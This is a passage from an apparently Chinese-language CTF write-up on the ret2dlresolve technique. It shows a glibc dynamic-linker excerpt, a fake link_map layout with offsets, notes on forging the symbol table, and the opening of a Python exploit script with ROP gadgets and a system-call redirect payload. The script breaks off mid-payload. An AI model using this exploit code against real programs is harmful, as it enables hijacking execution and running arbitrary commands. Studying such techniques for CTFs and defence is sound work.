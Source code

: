 ```c
      /* We already found the symbol.  The module (and therefore its load
	 address) is also known.  */
      value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
      result = l;
    }
```

继续结合调试分析 `link_map` 伪造格式：

```python
fake_link_map = flat({
    0x00: [l_addr],      # 存放自定义偏移值
    0x68: [your_strtab], # 避免段错误，l_info[DT_STRTAB]
    0x70: [fake_symtab], # 这里需要构造一个已解析的 symtab，事实上通常指向第一个 got 表项函数 - 8 的地址
    0xF8: [fake_rel],    # 这里绕过 assertion，value 需要指向 [writeable_addr - l_addr, 7]
})
```

这里值得思考的是 `fake_symtab` 的构造，其它都可以根据调试逆推得到：

1. 首先最终利用要借助 `l->l_addr + sym->st_value`，前者已经能够由伪造 `link_map` 任意控制，后者最好是一个已解析的 got 表项的值。

2. 还要绕过 `sym->st_other != 0`，调试可以得到 `( *(sym + 5) ) & 0x03 != 0` 的条件。

故 got 表项中的第一项是最合适的 `sym->st_value` 值，同时也符合条件 2。

在这里（victim 程序见附录）即为 `elf.got.puts - 8`，同时手动调用 `_dl_runtime_resolve` 前需要额外布置栈上的索引值（0）：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

pop_rdi_ret = 0x0000000000400823
pop_rsi_2_ret = 0x0000000000400821

buf_addr = 0x601088 + 8
l_addr = libc.sym.system - libc.sym.puts
r_offset = buf_addr + 0x200 - l_addr

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

lg("l_addr", l_addr)
dynstr = 0x3FE2E0
fake_rel_addr = buf_addr + 0x38


ru(b"Input your name: \n")

payload = flat(
    {
        0x28: [
            pop_rsi_2_ret,
            buf_addr,
```